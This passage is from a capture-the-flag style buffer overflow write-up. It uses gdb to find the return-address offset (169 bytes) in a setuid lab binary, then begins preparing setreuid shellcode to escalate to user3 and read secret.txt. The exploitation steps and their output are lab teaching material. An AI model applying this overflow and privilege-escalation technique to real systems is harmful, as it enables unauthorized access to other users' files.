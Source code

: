 **offset**

The buffer is 154 bytes, but the string `doggo` (5 characters) is added. So we should begin to test from 154-5. Let's start with 8 more bytes:

~~~
(gdb) run $(python -c "print('A'*(154-5+8))")
Starting program: /home/user1/overflow-4/buffer-overflow-2 $(python -c "print('A'*(154-5+8))")
new word is doggoAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x00000000004005d3 in main ()
~~~

Not enough to overwrite the return address. Let's add 8 more bytes:

~~~
(gdb) run $(python -c "print('A'*(154-5+8*2))")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user1/overflow-4/buffer-overflow-2 $(python -c "print('A'*(154-5+8*2))")
new word is doggoAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x0000000000004141 in ?? ()
~~~

Good, we start seing 2 times 'A' overwritting the return address. We need 6 in total, so we need 4 more:

~~~
(gdb) run $(python -c "print('A'*(154-5+8*2+4))")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user1/overflow-4/buffer-overflow-2 $(python -c "print('A'*(154-5+8*2+4))")
new word is doggoAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x0000414141414141 in ?? ()
~~~

The offset is 169 (`154-5+8*2+4`).

**Shellcode**

We'll use the same shellcode (158 bytes) as previously, with the SETREUID. This time, we need to target user3 (ID is 1003), to be able to read `secret.txt`:

```bash
[user1@ip-10-10-189-18 overflow-4]$ ll
total 20
-rwsr-xr-x 1 user3 user3 8272 Sep  3  2019 buffer-overflow-2
-rw-rw-r-- 1 user1 user1  250 Sep  3  2019 buffer-overflow-2.c
-rw------- 1 user3 user3   17 Sep  2  2019 secret.txt
[user1@ip-10-10-189-18 overflow-4]$ grep user3 /etc/passwd
user3:x:1003:1003::/home/user3:/bin/bash
```
